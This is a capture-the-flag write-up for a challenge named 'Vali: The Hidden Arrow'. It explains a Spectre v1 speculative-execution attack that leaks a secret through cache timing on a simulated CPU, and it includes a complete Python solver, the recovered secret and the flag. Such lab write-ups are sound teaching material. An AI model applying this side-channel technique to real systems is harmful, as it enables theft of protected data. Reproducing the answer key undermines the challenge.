





# K03 - Vali: The Hidden Arrow

**Category:** Hardware / Side channel | **Flag:** `PINAKA{vali_vadha_the_arrow_from_concealment}`
Service: `https://pinaka-k03-cyber-xo-x.vercel.app`

## The setup

VANARA-1 is a simulated CPU with a `GINV` instruction that indexes into a 16-byte public array. The simulator also models speculative execution and has a cache timing instruction. So this is Spectre v1: train the bounds check, go out of bounds speculatively, and read the secret back through the cache.

## Finding the probe array

Calling `GINV 0` with a valid index lights up the first probe line at `0x4000`. Trying a few more valid indices shows the array is 16 long and the probe stride is 64 bytes, so a value `b` touches `0x4000 + b*64`.

## Leaking a byte

For each secret byte:

1. flush the simulated cache
2. call `GINV 0` eight times to train the predictor
3. call it with `16 + offset` (out of bounds)

The CPU rejects the out-of-bounds index, but on the mispredicted path the gadget has already read the secret byte and touched its cache line. Then `TIME` scans the candidate lines and `OUT` reports which ones were hits.

Two details matter:

- The training calls themselves leave line 0 hot, so that line has to be ignored.
- The service limits output size, so I split the 256 candidates into four chunks of 64 and redo the training and trigger for each chunk.

## Result

That gives the 44-byte secret `kishkindha::cb49ebd35c0f5256cf6606929a7f6cd9`. Posting it to `/vanara/claim` returned:

```text
PINAKA{vali_vadha_the_arrow_from_concealment}
```







## Solver

`solve.py` uses the bundled `vanara_asm.py` assembler, leaks each byte through `/vanara/run`, saves the secret and a transcript, then submits the claim. `--probe-first` leaks just one byte, which is handy for checking the setup.

```python
#!/usr/bin/env python3
"""Leak VANARA-1's protected secret through its speculative cache probe."""
import json
import os
import sys
import urllib.error
import urllib.request
from pathlib import Path

import vanara_asm

BASE = os.environ.get("PINAKA_K03_URL", "https://pinaka-k03-cyber-xo-x.vercel.app").rstrip("/")
PUBLIC_LEN = 16
PROBE_BASE = 0x4000
PROBE_STRIDE = 64
TRAINING_CALLS = 8
SCAN_CHUNK = 64
SECRET_LEN = 44
ROOT = Path(__file__).resolve().parent


def run_program(program):
    req = urllib.request.Request(
        BASE + "/vanara/run",
        data=json.dumps({"program": program.hex()}, separators=(",", ":")).encode(),
        headers={"Content-Type": "application/json"},
        method="POST",
    )
    try:
        with urllib.request.urlopen(req, timeout=30) as response:
            result = json.loads(response.read())
    except urllib.error.HTTPError as exc:
        raise RuntimeError(f"/vanara/run HTTP {exc.code}: {exc.read().decode(errors='replace')}") from exc
    output = result.get("output", "")
    if not isinstance(output, str):
        raise RuntimeError(f"unexpected machine response: {result}")
    return bytes.fromhex(output)


def probe_program(secret_index, first_value, count):
    lines = ["FLUSH", "MOVI R0, 0"]
    lines.extend(["GINV R0"] * TRAINING_CALLS)
    lines.extend([f"MOVI R0, {PUBLIC_LEN + secret_index}", "GINV R0"])
    for value in range(first_value, first_value + count):
        lines.extend([
            f"MOVI R1, {PROBE_BASE + value * PROBE_STRIDE}",
            "TIME R2, R1",
            "OUT R2",
        ])
    return vanara_asm.assemble("\n".join(lines))


def leak_byte(secret_index):
    hits = []
    for first in range(0, 256, SCAN_CHUNK):
        count = min(SCAN_CHUNK, 256 - first)
        output = run_program(probe_program(secret_index, first, count))
        if len(output) != count:
            raise RuntimeError(f"probe returned {len(output)} bytes; expected {count}")
        hits.extend(first + offset for offset, hot in enumerate(output) if hot)
    # The training calls themselves leave value zero hot. Ignore that known line.
    candidates = [value for value in hits if value != 0]
    if len(candidates) != 1:
        raise RuntimeError(f"index {secret_index}: expected one secret cache line, got {candidates}")
    return candidates[0]


def claim_secret(secret):
    req = urllib.request.Request(
        BASE + "/vanara/claim",
        data=json.dumps({"secret": secret}, separators=(",", ":")).encode(),
        headers={"Content-Type": "application/json"},
        method="POST",
    )
    with urllib.request.urlopen(req, timeout=30) as response:
        return json.loads(response.read())


def main():
    if "--probe-first" in sys.argv:
        value = leak_byte(0)
        print(f"Secret byte 0: 0x{value:02x} ({chr(value)!r})")
        return
    recovered = bytearray()
    for index in range(SECRET_LEN):
        value = leak_byte(index)
        recovered.append(value)
        print(f"[{index + 1:02d}/{SECRET_LEN}] {value:02x}  {recovered.decode('ascii', errors='replace')}", flush=True)
    secret = recovered.decode("utf-8")
    (ROOT / "transcripts" / "04_recovered_secret.txt").write_text(secret + "\n")
    print("Recovered secret:", secret)
    result = claim_secret(secret)
    print("Claim response:")
    print(json.dumps(result, indent=2, sort_keys=True))
    flag = result.get("flag")
    if not flag:
        raise RuntimeError("claim response did not include a flag")
    print("Flag:", flag)
    (ROOT / "transcripts" / "05_flag.txt").write_text(f"Claim flag: {flag}\n")


if __name__ == "__main__":
    main()
```
